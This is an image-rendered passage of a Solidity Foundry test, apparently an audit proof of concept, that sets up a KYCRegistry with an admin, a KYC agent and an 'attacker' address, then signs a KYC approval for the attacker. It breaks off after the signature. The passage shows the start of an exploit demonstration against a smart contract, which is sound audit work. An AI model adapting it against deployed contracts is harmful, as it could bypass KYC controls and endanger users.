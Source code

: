     pragma solidity 0.8.16;
    
    import "forge-std/Test.sol";
    import "forge-std/Vm.sol";
    
    import "contracts/cash/kyc/KYCRegistry.sol";
    
    contract SanctionsList {
        function isSanctioned(address) external pure returns (bool) {
            return false;
        }
    }
    struct KYCApproval {
        uint256 kycRequirementGroup;
        address user;
        uint256 deadline;
    }
    
    contract BugTest1 is Test {
        bytes32 APPROVAL_TYPEHASH;
        bytes32 DOMAIN_SEPARATOR;
        KYCRegistry registry;
    
        address admin;
        address kycAgent;
        uint256 kycAgentPrivateKey = 0xB0B;
        address attacker;
    
        function setUp() public {
            admin = address(0xad);
            attacker = address(0xbabe);
            kycAgent = vm.addr(kycAgentPrivateKey);
            registry = new KYCRegistry(admin, address(new SanctionsList()));
            APPROVAL_TYPEHASH = registry._APPROVAL_TYPEHASH();
            DOMAIN_SEPARATOR = registry.DOMAIN_SEPARATOR();
        }
    
        function test_bug() public {
            uint256 kycGroup = 1;
            bytes32 kycGroupRole = "0x01";
            vm.prank(admin);
            registry.assignRoletoKYCGroup(kycGroup, kycGroupRole);
            vm.prank(admin);
            registry.grantRole(kycGroupRole, kycAgent);
            vm.stopPrank();
    
            uint256 deadline = block.timestamp + 1 days;
            KYCApproval memory approval = KYCApproval({
                kycRequirementGroup: kycGroup,
                user: attacker,
                deadline: deadline
            });
            bytes32 digest = getTypedDataHash(approval);
            // KYC approval got signed with validity of 1 day
            (uint8 v, bytes32 r, bytes32 s) = vm.sign(kycAgentPrivateKey, digest);
    